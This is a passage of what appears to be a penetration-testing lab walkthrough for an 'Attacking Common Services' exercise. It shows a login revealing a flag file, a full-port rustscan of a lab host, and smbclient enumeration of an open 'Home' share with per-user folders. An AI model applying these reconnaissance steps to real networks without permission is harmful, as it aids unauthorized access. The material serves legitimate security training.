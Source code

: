 ```

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

No mail.
Last login: Wed Apr 20 14:32:33 2022 from 10.10.14.20
simon@lin-medium:~$ dir
flag.txt  Maildir
```

***

## Attacking Common Services - Hard

```
rustscan -a 10.129.150.169 -r 1-65535 --ulimit 5000
```

so i used `smbclient` to retrieve any share files on the network

```
smbclient -L 10.129.203.10                                          
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Home            Disk      
        IPC$            IPC       Remote IPC
```

if we can access to "Home" directory

```
smbclient \\\\10.129.203.10\\Home
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Apr 21 17:18:21 2022
  ..                                  D        0  Thu Apr 21 17:18:21 2022
  HR                                  D        0  Thu Apr 21 16:04:39 2022
  IT                                  D        0  Thu Apr 21 16:11:44 2022
  OPS                                 D        0  Thu Apr 21 16:05:10 2022
  Projects                            D        0  Thu Apr 21 16:04:48 2022

                7706623 blocks of size 4096. 3168564 blocks available
smb: \> dir .\IT\
  .                                   D        0  Thu Apr 21 16:11:44 2022
  ..                                  D        0  Thu Apr 21 16:11:44 2022
  Fiona                               D        0  Thu Apr 21 16:11:53 2022
  John                                D        0  Thu Apr 21 17:15:09 2022
  Simon                               D        0  Thu Apr 21 17:16:07 2022
```
